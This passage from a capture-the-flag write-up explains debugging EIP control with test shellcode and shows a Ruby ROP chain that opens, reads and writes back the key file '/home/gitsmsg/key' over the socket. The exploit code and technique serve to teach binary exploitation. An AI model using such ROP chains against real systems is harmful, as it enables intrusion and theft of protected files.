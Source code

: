 It sends out the integer 0x1003, then attempts to return (and probably crashes). But getting that 0x1003 back from the socket after writing this was exactly the push I needed to keep going: I knew my EIP-control was working. Besides returning into known-good code like that, the shellcode <tt>eb fe</tt> (jmp -2) and <tt>cd 03</tt> (debug breakpoint) are fantastic ways to debug exploits. The former never returns, and the latter crashes immediately (and gives you debug control if it's local). It's the <em>perfect</em> way to test if your code is actually being run!

<h4>Back to our originally scheduled program...</h4>

All right, let's look at our ROP chain!

<pre>
<span class="Comment"># This generates the ROP stack. It's a simple open + read + write. The</span>
<span class="Comment"># only thing I'm not proud of here is that I make an assumption about what</span>
<span class="Comment"># the file handle will be after the open() call - but it seems to reliably</span>
<span class="Comment"># be '1' in my testing</span>
<span class="rubyDefine">def</span> <span class="Identifier">get_rop</span>(file_path, base_addr, fd)
    stack = [
      <span class="Comment"># open(filename, 0)</span>
      base_addr + <span class="Type">OPEN</span>,  <span class="Comment"># open()</span>
      base_addr + <span class="Type">PPR</span>,   <span class="Comment"># pop/pop/ret</span>
      file_path,         <span class="Comment"># filename = value we created</span>
      <span class="Constant">0</span>,                 <span class="Comment"># flags</span>

      <span class="Comment"># read(fd, filename, 100) # We're re-using the filename as a buffer</span>
      base_addr + <span class="Type">READ</span>,  <span class="Comment"># read()</span>
      base_addr + <span class="Type">PPPR</span>,  <span class="Comment"># pop/pop/pop/ret</span>
      <span class="Constant">0</span>,                 <span class="Comment"># fd - Because all descriptors are closed, the first available descriptor is '0'</span>
      file_path,         <span class="Comment"># buf</span>
      <span class="Constant">100</span>,               <span class="Comment"># count</span>

      <span class="Comment"># write(fd, filename, 0)</span>
      base_addr + <span class="Type">WRITE</span>, <span class="Comment"># write()</span>
      base_addr + <span class="Type">PPPR</span>,  <span class="Comment"># pop/pop/pop/ret</span>
      fd,                <span class="Comment"># fd</span>
      file_path,         <span class="Comment"># buf</span>
      <span class="Constant">100</span>,               <span class="Comment"># count</span>

      <span class="Comment"># This was simply for testing, it sends 4 bytes then exits</span>
      <span class="Comment">#base_addr + 0x2350</span>
    ]

    <span class="Statement">return</span> stack
<span class="rubyDefine">end</span>
</pre>

Once again, this is fairly simple!

We open a file. The file_path is something we stashed earlier, and is "/home/gitsmsg/key". We return to a pop/pop/ret to clean the two arguments off the stack.

We read up to 100 bytes from the file into the place where we stashed the filename (since it's handy and writeable). We use the file handle 0, because that's the handle that's always used (all the handles are closed in the child process, and the syscall promises to use the lowest un-used handle). Hardcoding the file handle was ugly, but way easier than actually figuring it out.
